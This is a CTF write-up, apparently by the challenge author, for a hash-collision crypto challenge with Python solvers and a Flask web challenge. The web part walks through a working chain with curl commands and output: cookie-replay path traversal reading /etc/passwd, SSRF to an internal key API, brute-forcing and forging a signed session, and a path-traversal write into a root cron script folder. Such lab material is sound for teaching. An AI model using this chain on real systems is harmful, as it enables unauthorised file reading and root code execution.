

wrenches.online
cf-supercollider, mikubeam, reactorcore
for the fun of it i wrote these three challenges for nypctf which i assumed were quite difficult and would not get solved. they're a bit of a step up from the rest of the challenges i wrote, to my pleasant surprise they got 3 solves total. i'll go over them now.
cf-supercollider is about finding collisions in a modified hash function.
def xor(arr1, arr2):
return bytearray([arr1[i] ^ arr2[i] for i in range(len(arr1))])
def supercollide(file, N):
if len(file) % 8 != 0:
file = b'\x00' * (8-len(file)%8) + file
hsh = b'\x00' * N
for i in range(0, len(file), 8):
n = md5(file[i:i+8]).hexdigest()[:N*2]
lower_bits = bytes.fromhex(n)
hsh = xor(hsh, lower_bits)
return hsh.hex()
this code presents a drastically oversimplified hash function - it breaks a file into 8-byte chunks and XORs their MD5s all together, and the first 6 bytes are returned as our hash. we are provided with a large file supercollider.flac, around 76.5mb. 6 bytes is well, not a lot of bytes, but it's still 2**48 which is unreasonable to directly brute force. i wrote this challenge about 2 months ago and in the time since then i have learned of multiple unintended methods you can use to solve this challenge. we'll go over them in terms of complexity.
first, the unintended solution found by puolsky: just... generate a bunch of possible chunks and pray?
import hashlib
import os
lebron = 'd6de13da2ded'
wootwoot = bytes.fromhex(lebron)
def get_hash(data):
# first 6 bytes of md5
return hashlib.md5(data).digest()[:6]
def xor_stuff(a, b):
# xor two things together
return bytes(x ^ y for x, y in zip(a, b))
what = {}
print("making random chunks ++ hashing them...")
# try a lot of random 8-byte chunks
for i in range(20_000_000):
if i % 1_000_000 == 0:
print(f"tried {i} chunks so far")
# random 8 bytes
chunk = os.urandom(8)
hash_val = get_hash(chunk)
what[hash_val] = chunk
print("looking for pairs that xor to target...")
# check if we can find a collision
for hash_val, chunk in what.items():
needed_hash = xor_stuff(wootwoot, hash_val)
# check
if needed_hash in what and what[needed_hash] != chunk:
print("found")
first_chunk = chunk
second_chunk = what[needed_hash]
print("first chunk:", first_chunk.hex())
print("second chunk:", second_chunk.hex())
# double check
hash1 = get_hash(first_chunk)
hash2 = get_hash(second_chunk)
result = xor_stuff(hash1, hash2)
print("xor result:", result.hex())
final_payload = first_chunk + second_chunk
print(f"total length: {len(final_payload)} bytes")
with open("nba.bin", "wb") as f:
f.write(final_payload)
break
else:
print("sorry")
this solution is kind of stunning to me in the fact that it even works. essentially we just generate a bunch of random hash values and check if there is any combination of two that xor to our intended target (or more accurately, check that for every hash a there exists our b in our collected hashes list where a ^ b == target). this worked on my second try of running the script, and i kind of can't... believe this works. let's do some math: there's 2**48 possible 6 byte hashes. we generate 20 million of these. the probability that this works is then 20 million choose 2 divided by 2**48, which is.. fucking.. 70%?? right, who even knows anymore. masterful gambit.
now, my intended solution, which is arguably very stupid as well: we can take advantage of the fact that the file is very large. we calculate each intermediate hash produced at each block of 8 bytes (considering all previous block-xor-operations before it), and this generates a pool of target hashes. if we are able to luck into randomly brute forcing an intermediate hash, we can just append the rest of the file bytes that come after it, and we will have a unique, smaller file, that hashes to the same 6-byte prefix.
from hashlib import md5
from tqdm import tqdm
import time
def xor(arr1, arr2):
return bytearray([arr1[i] ^ arr2[i] for i in range(len(arr1))])
target_hashes = list()
hshmap = set()
def collect_hash(file, N):
if len(file) % 8 != 0:
file = b'\x00' * (8-len(file)%8) + file
hsh = b'\x00' * N
for i in range(0, len(file), 8):
n = md5(file[i:i+8]).hexdigest()[:N*2]
lower_bits = bytes.fromhex(n)
hsh = xor(hsh, lower_bits)
target_hashes.append(hsh.hex())
hshmap.add(hsh.hex())
return hsh.hex()
def supercollide(file, N):
if len(file) % 8 != 0:
file = b'\x00' * (8-len(file)%8) + file
hsh = b'\x00' * N
for i in range(0, len(file), 8):
n = md5(file[i:i+8]).hexdigest()[:N*2]
lower_bits = bytes.fromhex(n)
hsh = xor(hsh, lower_bits)
return hsh.hex()
realf = open('supercollider.flac', 'rb').read()
realf = b'\x00' * (8-len(realf)%8) + realf
bytegrps = [realf[i:i+8] for i in range(0, len(realf), 8)]
collect_hash(realf, 6)
st = time.time()
#hshcnt = len(target_hashes)
#for i in tqdm(range(113407056, 2**32)):
# f = i.to_bytes(8)
# z = supercollide(f, 6)
# if z in hshmap:
# index = target_hashes.index(z)
# filesize = 74*(hshcnt-index)/hshcnt
# print(f'time = {time.time()-st}')
# if filesize < 20:
# print('found:', i, f, z, filesize)
# else:
# print('weak: ', i, f, z, filesize)
#f = bytes.fromhex('01da7c7100000000')
f = b'\x00\x00\x00\x00\t\x88\xaf/'
z = supercollide(f, 6)
index = target_hashes.index(z)
print(f'{index = }')
print(len(bytegrps))
print(len(target_hashes))
new_file = f + realf[(index+1)*8:]
output = open('output', 'wb')
output.write(new_file)
output.close()
print(supercollide(new_file, 6))
#takes about 20 minutes to find a working hash
yeah so arguably this is pretty stupid as well, but it is indeed my intended solution. i'll now move on to the more complicated and more mathematically inclined solution, which involves linear algebra. simply put, we can model a 6-byte hash as a 48 bit binary hash instead. our goal is to find a small group of hashes that can linearly combine into our target hash by way of gaussian elimination.
gaussian elimination, in primary 6 word problem terms, is a tool that helps us solve the following. imagine i have sacks of 3 bananas and 2 apples, boxes of 5 bananas and 1 apple, and containers of 1 banana and 7 apples. we can use gaussian elimination to find a combination of sacks, boxes, and containers, such that we have 150 bananas and 200 apples.
it involves representing each item as a row in a matrix, and then performing simple operations on them until one of the columns represents our solution. further details into the algorithm aren't particularly relevant, all we need to know is that it helps us find these linear combinations. so, how is this applicable to our problem? imagine envisioning our target hash (a 6-byte prefix) as a 48-bit row of 1s and 0s.
target = [0, 1, 0, 0, ... 1] (48 entries)
then, we generate around 200 or so "source" hashes" at random. our end goal is to use gaussian elimination to find a linear combination of these source rows that result in our target hash. the reason that this works when we're XORing the hashes instead of adding them is because in binary (or in more rigorous terms, GF(2), the finite field of numbers mod 2), XOR is exactly equivalent to addition.
s = [0, 1, 0, 0, ... 1]
[1, 0, 0, 0, ... 0]
[0, 1, 0, 0, ... 1]
[0, 0, 1, 1, ... 1]
[0, 1, 0, 0, ... 0]
[0, 1, 0, 1, ... 1]
-------
target = [0, 1, 0, 0, ... 1]
the code below was sent to me by damian, who chatgpt'd the entire thing, but here it is anyway.
import os
from hashlib import md5
T_hex = 'd6de13da2ded'
T = bytes.fromhex(T_hex)
def xor_bytes(arr1, arr2):
return bytearray([arr1[i] ^ arr2[i] for i in range(len(arr1))])
def bytes_to_bits(byte_arr):
bits = []
for byte in byte_arr:
for i in range(7, -1, -1):
bits.append((byte >> i) & 1)
return bits
n_rows = 48
n_cols = 100
found = False
while not found:
blocks = [os.urandom(8) for _ in range(n_cols)]
vectors = []
for block in blocks:
m = md5()
m.update(block)
h = m.digest()[:6]
vectors.append(h)
matrix = [[0] * (n_cols + 1) for _ in range(n_rows)]
T_bits = bytes_to_bits(T)
for i in range(n_rows):
for j in range(n_cols):
v_bits = bytes_to_bits(vectors[j])
matrix[i][j] = v_bits[i]
matrix[i][n_cols] = T_bits[i]
mat = [row[:] for row in matrix]
solution = [0] * n_cols
for col in range(n_cols):
pivot_row = None
for r in range(col, n_rows):
if mat[r][col] == 1:
pivot_row = r
break
if pivot_row is None:
continue
mat[col], mat[pivot_row] = mat[pivot_row], mat[col]
for r in range(n_rows):
if r != col and mat[r][col] == 1:
for c in range(col, n_cols + 1):
mat[r][c] ^= mat[col][c]
for col in range(n_cols):
if col < n_rows and mat[col][col] == 1:
solution[col] = mat[col][n_cols]
data = b''.join(blocks[j] for j in range(n_cols) if solution[j])
if not data:
continue
current = b'\x00' * 6
for j in range(n_cols):
if solution[j]:
current = xor_bytes(current, vectors[j])
if current == T:
with open('solution.flac', 'wb') as f:
f.write(data)
found = True
that's it for this challenge - i was going to do a writeup on wagner's birthday problem but i'm actually unsure if it's applicable here, but if you're curious and want to look into that do let me know. anyways, onto the rest.
cf-mikubeam
this is a simple (for my standards,) web challenge based around a flask app with three steps. first, lfi via session replay. second, ssrf to leak an internal api that provides the secret key. third, arbitrary filewrite to write a script that will be executed by cron. the goal, as stated in the challenge, is to execute /tmp/readfile. let's get into it.
aside from the beautiful css we have two routes, /luckydraw (get a picture) and /upload (upload a picture). we will look at /luckydraw for now. the source for /luckydraw is also in the html comments, as seen here:
@app.route('/luckydraw', methods=['GET', 'POST'])
def luckydraw():
files = [f for f in os.listdir('/home/miku/app/uploads') if 'miku' in f and os.path.isfile(os.path.join('/home/miku/app/uploads', f))]
session['drawn'] = True
if len(files) != 0:
random_miku = random.choice(files)
return redirect(url_for('download', random_miku=random_miku))
flash(f'something went wrong...')
return render_template('index.html')
@app.route('/download')
def download():
try:
random_miku = request.args.get('random_miku')
if session['drawn']:
session['drawn'] = False
return send_file(os.path.join('/home/miku/app/uploads', random_miku))
flash('hey! don\'t be greedy! i can see your session token >:(')
except Exception as e:
flash(f"oopsie doopsie: {traceback.format_exc()}")
return render_template('index.html')
so a few things should immediately pop out to us here. there's a session cookie check, and an unsafe os.path.join from a directly controllable get parameter with no sanitization (yum!), and looking at the url that we are eventually led to, we might try to naively edit our get parameter. this fails because of the session check:
so there's a few things to do here: either forge a session cookie (not really feasible) or see if we can bypass the check somehow. peeping in burp suite with the history on, we can see some interesting stuff:
burp catches the redirect here, and sets our session cookie. let's read it with flask-unsign:
┌──(ctfvenv)─(navi@jinxed)-[~/…/ctf/nyp/cf-mikubeam/src]
└─$ flask-unsign --decode --cookie 'eyJkcmF3biI6dHJ1ZSwiaXNfbWlrdSI6ZmFsc2V9.aCFizw.Bs1XuRfM_q47-BNXRsZicUawKbc;'
{'drawn': True, 'is_miku': False}
at one point drawn has to be set to true, and here we've intercepted that point. recall that these cookies do not expire, and the app has no way of knowing that it has already been used before. so... can we directly call the /download endpoint with this cookie?
┌──(ctfvenv)─(navi@jinxed)-[~/…/ctf/nyp/cf-mikubeam/src]
└─$ curl -b "session=eyJkcmF3biI6dHJ1ZSwiaXNfbWlrdSI6ZmFsc2V9.aCFizw.Bs1XuRfM_q47-BNXRsZicUawKbc" http://172.17.0.2:5000/download?random_miku=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
cool, there we go - we have lfi. let's try to read the source code with /proc/self/cmdline/app.py:
ooh.. err seems like we fucked up a bit. no matter, for some reason (authorially-intended solver convenience) the webpage gives a full traceback that gives us the path to our flask app /home/miku/app/main.py. we can use our lfi to get the full source, here's the interesting parts from that:
from flask import Flask, render_template, request, redirect, url_for, flash, session, send_file
from flask_wtf import FlaskForm
from werkzeug.utils import secure_filename
from get_secrets import get_secure_secret
reusing our lfi we get our source. cool. a few things here: from get_secrets import get_secure_secret..? with knowledge of python modules we can read that file as well, as it's just stored in the same directory under get_secrets.py:
┌──(ctfvenv)─(navi@jinxed)-[~/…/ctf/nyp/cf-mikubeam/src]
└─$ curl -b "session=eyJkcmF3biI6dHJ1ZSwiaXNfbWlrdSI6ZmFsc2V9.aCFizw.Bs1XuRfM_q47-BNXRsZicUawKbc" http://172.17.0.2:5000/download?random_miku=/home/miku/app/get_secrets.py
import requests
def get_secure_secret():
# my brilliant internal api uses a very secure and completely random key generation system!!
url = "http://127.0.0.1:50000"
res = requests.get(url)
return res.content
well that looks like a good a place as any to look next. keep in mind this is an internal api so we can't access it unless we have some ssrf, so let's look for an ssrf in the source code.
@app.route('/upload', methods=['GET', 'POST'])
def upload():
if request.method == 'POST':
file_url = request.form.get('file_url')
filename = request.form.get('filename')
if filename:
if 'miku' in filename:
flash(f"no impersonating miku!!")
return redirect(url_for('upload'))
filename = secure_filename(filename)
else:
filename = token_urlsafe(16)
if file_url:
try:
res = requests.get(file_url)
res.raise_for_status()
path = os.path.join('/home/miku/app/uploads', filename)
with open(path, 'wb') as f:
f.write(res.content)
flash(f"mikuBEAMED!! {file_url} saved to {filename}.")
return redirect(url_for('upload'))
soo, the server will make a request to any url we provide it without checking if it's an internal url - textbook ssrf. the problem is that the ssrf doesn't actually output the file anywhere we can read, it saves it to the /uploads folder and we have no way of reliably reading from that folder ... except we do! we have lfi. with knowledge of the filename (user controlled), we can read any file we upload with the /upload route. so here the plan is simple: ssrf to upload the file, and lfi to read it.
┌──(ctfvenv)─(navi@jinxed)-[~/…/ctf/nyp/cf-mikubeam/src]
└─$ curl -b "session=eyJkcmF3biI6dHJ1ZSwiaXNfbWlrdSI6ZmFsc2V9.aCFizw.Bs1XuRfM_q47-BNXRsZicUawKbc" http://172.17.0.2:5000/download?random_miku=secret_key.txt
1747019773
so, is this our secret key..? let's try to sign a new cookie and check if the signatures match:
┌──(ctfvenv)─(navi@jinxed)-[~/…/ctf/nyp/cf-mikubeam/src]
└─$ flask-unsign --sign --cookie "{'drawn': True, 'is_miku': False}" --secret "1747019773" --no-literal-eval
eyJkcmF3biI6dHJ1ZSwiaXNfbWlrdSI6ZmFsc2V9.aCFoew.5LqvOm_yS9wxaUarT1_1t3sYCgg
err.. no! it doesn't! so what's going on here? let's remind ourselves that the api will probably vend different tokens as it is, presumably, random. let's vend another and check:
┌──(ctfvenv)─(navi@jinxed)-[~/…/ctf/nyp/cf-mikubeam/sol]
└─$ curl -b "session=eyJkcmF3biI6dHJ1ZSwiaXNfbWlrdSI6ZmFsc2V9.aCFizw.Bs1XuRfM_q47-BNXRsZicUawKbc" http://172.17.0.2:5000/download?random_miku=secret_key2.txt
1747020277
getting more secret keys will eventually reveal an interesting pattern - that the keys are all strictly increasing, with later keys having a greater value, but they are all very roughly within the same range. from here, we can sweep for keys in a modest range with a simple script to generate a wordlist and then using flask-unsign to try each number within that range. (the astute amongst you might notice that our 'secret secure token generator' is actually just returning the unix epoch!)
but regardless, here is the script.
wordlist = open('wordlist.txt', 'w')
def wordlist_gen(initial_timestamp):
for i in range(initial_timestamp-50000, initial_timestamp):
wordlist.write(str(i))
wordlist.write('\n')
wordlist.close()
wordlist_gen(1747019773)
using flask-unsign on our wordlist, we get our secret key:
┌──(ctfvenv)─(navi@jinxed)-[~/…/ctf/nyp/cf-mikubeam/sol]
└─$ flask-unsign --unsign --cookie 'eyJkcmF3biI6dHJ1ZSwiaXNfbWlrdSI6ZmFsc2V9.aCFizw.Bs1XuRfM_q47-BNXRsZicUawKbc' --wordlist=wordlist.txt --no-literal-eval
[*] Session decodes to: {'drawn': True, 'is_miku': False}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 48128 attempts
b'1747017794'
recalling the source code, there is a /miku endpoint we can access if is_miku is set to True, so let's forge one:
┌──(ctfvenv)─(navi@jinxed)-[~/…/ctf/nyp/cf-mikubeam/sol]
└─$ flask-unsign --sign --cookie "{'drawn': True, 'is_miku': True}" --secret "1747017794" --no-literal-eval
eyJkcmF3biI6dHJ1ZSwiaXNfbWlrdSI6dHJ1ZX0.aCFqxg.284hmj4fiTzoSheI5_-uCeedrDw
using this session cookie, we can now access the /miku endpoint:
cool! now what is there to do here? let's read the code:
@app.route('/miku', methods=['GET', 'POST'])
def miku():
if session['is_miku']:
if request.method == 'POST':
try:
filedate, filecontents = request.form.get('filedate'), request.form.get('filecontents')
filename = os.path.join('/home/miku/app/logs', f'{filedate}_{token_urlsafe(16)}')
print(filename)
with open(filename, 'w') as f:
f.write(filecontents)
f.close()
flash(f'file successfully saved to {filename}')
except Exception as error:
flash(f'mikufrown :( {traceback.format_exc()}')
return render_template('admin.html')
return render_template('admin.html')
flash(f'hey.. you\'re not miku!!!')
return redirect('/')
the form itself accepts a dd/mm/yyyy filedate, then saves the contents of our logs with a random hash.. and there it is again, our old friend os.path.join, with no secure_filename in sight for sanitization. note that we are told "these logs are cleared once a minute" - this implies some sort of regularly scheduled task running, or in other words, a cronjob. peeking at /etc/crontab is honestly quite standard if you have lfi, but if you didn't think to do it here, we can do it now:
# Example of job definition:
# .---------------- minute (0 - 59)
# | .------------- hour (0 - 23)
# | | .---------- day of month (1 - 31)
# | | | .------- month (1 - 12) OR jan,feb,mar,apr ...
# | | | | .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# | | | | |
# * * * * * user-name command to be executed
17 * * * * root cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6 * * 7 root test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6 1 * * root test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
* * * * * root /home/miku/scripts/scripthandler.sh >> /var/log/cron.log 2>&1
alright, what's in scripthandler.sh?
#!/bin/bash
for file in /home/miku/scripts/clear_*; do
chmod +x "$file"
/bin/bash "$file"
done
this script executes every script with a clear_ prefix in front of it as root. this is really, really close to code execution. all we need to make sure is that we can upload files to that location with the correct filename. let's try it.

here is how the normal upload flow looks in burp suite. note that we can edit the filedate field into something that isn't even a valid date. let's try modifying the filename to upload something to /home/miku/scripts/clear_...
i wrote a script that would execute /flag/readfile and pipe the contents to /tmp/flag, but what the script does is a matter of personal taste: you can do a reverse shell or curl the contents to an endpoint you can access. in ctf conditions, however, this is probably the easiest way to do it without having to worry about networking nonsense.
after waiting a minute, we can read our flag from /tmp/flag.
┌──(ctfvenv)─(navi@jinxed)-[~/…/ctf/nyp/cf-mikubeam/sol]
└─$ curl -b "session=eyJkcmF3biI6dHJ1ZSwiaXNfbWlrdSI6ZmFsc2V9.aCFizw.Bs1XuRfM_q47-BNXRsZicUawKbc" http://172.17.0.2:5000/download?random_miku=/tmp/fl
ag
NYP{CIRNO'S PERFECT OSCP CLASS}